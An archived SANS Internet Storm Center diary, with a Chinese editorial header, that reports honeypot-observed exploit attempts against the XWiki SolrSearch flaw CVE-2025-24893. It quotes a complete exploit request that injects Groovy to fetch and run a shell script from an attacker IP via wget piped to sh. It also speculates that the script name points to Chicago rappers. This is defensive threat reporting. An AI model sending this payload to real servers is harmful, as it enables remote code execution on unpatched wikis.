


# XWiki SolrSearch Exploit Attempts (CVE-2025-24893) with link to Chicago Gangs/Rappers, (Mon, Nov 3rd)

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：XWiki SolrSearch
- 文献类型：蜜罐攻击观察
- 版本、权限及部署边界：Guest可达SolrSearch路径；观察2025-07扫描、11-02起利用尝试，未证明受害成功
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 把KEV归NIST错误，应核CISA；CVE/NVD链接不等于KEV运营方
2. 脚本名rondo和落地网页rap广告不能归因芝加哥帮派/歌手；研究者明确推测应保留不确定性，不产生确定攻击者标签
3. 只观察HTTP请求且恶意脚本已不在，不能还原payload或宣称成功入侵；历史IP是IoC非应访问目标
4. XWiki是实际产品，SolrSearch页面不等于ApacheSolr漏洞，Confluence/MediaWiki只竞品
5. 缺影响与修复版本/厂商公告，SANS原始观察可保留；green是站点威胁等级非文件标题，删导航课程广告/空图

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://isc.sans.edu/diary/rss/32444>
- 原文参考链接（未重新核验）：<https://www.sans.org/event/dallas-2025/course/application-security-securing-web-apps-api-microservices>
- 原文参考链接（未重新核验）：<https://plus.google.com/101587262224166552564?rel=author>
- 原文参考链接（未重新核验）：<https://www.xwiki.org/xwiki/bin/view/Main/WebHome>
- 原文参考链接（未重新核验）：<https://nvd.nist.gov/vuln/detail/CVE-2025-24893>
- 原文参考链接（未重新核验）：<https://www.youtube.com/shorts/llh53PYnHWQ>

### 归档技术正文

# [Internet Storm Center](/)

[Sign In](/login.html)
[Sign Up](/register.html)

Handler on Duty: [Johannes Ullrich](/handler_list.html#johannes-ullrich "Johannes Ullrich")

Threat Level: [green](/infocon.html)

* [previous](/diary/32440)

My next class:

|  |  |  |
| --- | --- | --- |
| [Application Security: Securing Web Apps, APIs, and Microservices](https://www.sans.org/event/dallas-2025/course/application-security-securing-web-apps-api-microservices) | Dallas | Dec 1st - Dec 6th 2025 |

# [XWiki SolrSearch Exploit Attempts (CVE-2025-24893) with link to Chicago Gangs/Rappers](/forums/diary/XWiki%2BSolrSearch%2BExploit%2BAttempts%2BCVE202524893%2Bwith%2Blink%2Bto%2BChicago%2BGangsRappers/32444/)

**Published**: 2025-11-03. **Last Updated**: 2025-11-03 14:20:05 UTC
**by** [Johannes Ullrich](https://plus.google.com/101587262224166552564?rel=author) (Version: 1)

[0 comment(s)](/diary/XWiki%2BSolrSearch%2BExploit%2BAttempts%2BCVE202524893%2Bwith%2Blink%2Bto%2BChicago%2BGangsRappers/32444/#comments)

XWiki describes itself as "The Advanced Open-Source Enterprise Wiki" and considers itself an alternative to Confluence and MediaWiki. In February, XWiki released an advisory (and patch) for an arbitrary remote code execution vulnerability. Affected was the SolrSearch component, which any user, even with minimal "Guest" privileges, can use. The advisory included PoC code, so it is a bit odd that it took so long for the vulnerability to be widely exploited.

NIST added the vulnerability to its "Known Exploited Vulnerabilities" list this past Friday. Our data shows some reconnaissance scans starting in July, but actual exploit attempts did not commence until yesterday.

The exploit requests are relatively straightforward:

> `GET /xwiki/bin/get/Main/SolrSearch?media=rss&text={{async async=false}}{{groovy}}['sh', '-c', 'wget -qO- http://74.194.191.52/rondo.sdu.sh|sh'].execute().text{{/groovy}}{{/async}} HTTP/1.1
> Host: [honeypot IP address]
> User-Agent: Mozilla/5.0 ([[email protected]](/cdn-cgi/l/email-protection))
> Connection: close
> Accept: */*`

The exploit attempt is loading a shell script from 74.194.191.52. The script is no longer present on the site. However, the site displays what appears to be an advertisement for a fairly average rap song, and it also displays the same email address as the one included in the user agent. Maybe the actual attacker's email address? I will try to reach out to see what I get back.

The page returned, instead of the malware, is advertising the Chicago rapper "King Lil Jay". King Lil Jay is a rival of RondoNumbaNine, and both are currently incarcerated. The reference to "rondo" in the malware script name is likely referring to RondoNumbaNine. In the past, both rappers were affiliated with opposing gangs in Chicago, and in part, participated in and celebrated in their music the violence associated with the gang rivalry. While, according to some reports [3], the two rappers ended their rivalry, it is odd to see some of this come up in a random online attack.

[1] https://www.xwiki.org/xwiki/bin/view/Main/WebHome
[2] https://nvd.nist.gov/vuln/detail/CVE-2025-24893
[3] https://www.youtube.com/shorts/llh53PYnHWQ

--
Johannes B. Ullrich, Ph.D. , Dean of Research, [SANS.edu](https://sans.edu)
[Twitter](https://jbu.me/164)|

Keywords:

[0 comment(s)](/diary/XWiki%2BSolrSearch%2BExploit%2BAttempts%2BCVE202524893%2Bwith%2Blink%2Bto%2BChicago%2BGangsRappers/32444/#comments)

My next class:

|  |  |  |
| --- | --- | --- |
| [Application Security: Securing Web Apps, APIs, and Microservices](https://www.sans.org/event/dallas-2025/course/application-security-securing-web-apps-api-microservices) | Dallas | Dec 1st - Dec 6th 2025 |

* [previous](/diary/32440)

### Comments

[Login here to join the discussion.](/login)

Top of page

×

modal content

[Diary Archives](/diaryarchive.html)

* 
* [Homepage](/index.html)
* [Diaries](/diaryarchive.html)
* [Podcasts](/podcast.html)
* [Jobs](/jobs)
* [Data](/data)
  + [TCP/UDP Port Activity](/data/port.html)
  + [Port Trends](/data/trends.html)
  + [SSH/Telnet Scanning Activity](/data/ssh.html)
  + [Weblogs](/weblogs)
  + [Domains](/data/domains.html)
  + [Threat Feeds Activity](/data/threatfeed.html)
  + [Threat Feeds Map](/data/threatmap.html)
  + [Useful InfoSec Links](/data/links.html)
  + [Presentations & Papers](/data/presentation.html)
  + [Research Papers](/data/researchpapers.html)
  + [API](/api)
* [Tools](/tools/)
  + [DShield Sensor](/howto.html)
  + [DNS Looking Glass](/tools/dnslookup)
  + [Honeypot (RPi/AWS)](/tools/honeypot)
  + [InfoSec Glossary](/tools/glossary)
* [Contact Us](/contact.html)
  + [Contact Us](/contact.html)
  + [About Us](/about.html)
  + [Handlers](/handler_list.html)* [About Us](/about.html)

[Slack Channel](/slack/index.html)

[Mastodon](https://infosec.exchange/%40sans_isc)

[Bluesky](https://bsky.app/profile/sansisc.bsky.social)

[X](https://twitter.com/sans_isc)

© 2025 SANS™ Internet Storm Center
Developers: We have an [API](/api/) for you!   

* [Link To Us](/linkback.html)
* [About Us](/about.html)
* [Handlers](/handler_list.html)
* [Privacy Policy](/privacy.html)

---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
